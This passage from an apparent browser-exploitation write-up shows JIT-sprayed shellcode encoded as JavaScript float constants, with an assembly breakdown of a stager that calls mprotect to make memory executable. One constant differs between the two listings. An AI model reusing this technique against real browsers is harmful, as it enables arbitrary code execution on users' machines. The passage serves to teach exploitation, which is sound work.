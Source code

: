 Now lets focus on where we want to direct the control flow to....

## Injecting Shellcode

We will, more or less, be using the same technique as displayed by the author in the above mentioned post. Let's create a function to hold our shellcode...

```js
buf[7].func = function func() {
  const magic = 4.183559446463817e-216;

  const g1 = 1.4501798452584495e-277
  const g2 = 1.4499730218924257e-277
  const g3 = 1.4632559875735264e-277
  const g4 = 1.4364759325952765e-277
  const g5 = 1.450128571490163e-277
  const g6 = 1.4501798485024445e-277
  const g7 = 1.4345589835166586e-277
  const g8 = 1.616527814e-314
}
```

This is a stager shellcode that will `mprotect` a region of memory with read-write-execute permissions. Here is a rough breakdown of the same.

```ruby
# 1.4501798452584495e-277
mov rcx, qword ptr [rcx]
cmp al,al

# 1.4499730218924257e-277
push 0x1000

# 1.4632559875735264e-277
pop rsi
xor rdi,rdi
cmp al,al

# 1.4364759325952765e-277
push 0xfff
pop rdi

# 1.450128571490163e-277
not rdi
nop
nop
nop

# 1.4501798483875178e-277
and rdi, rcx
cmp al, al

# 1.4345589835166586e-277
push 7
pop rdx
push 10
pop rax

# 1.616527814e-314
push rcx
syscall
ret
```
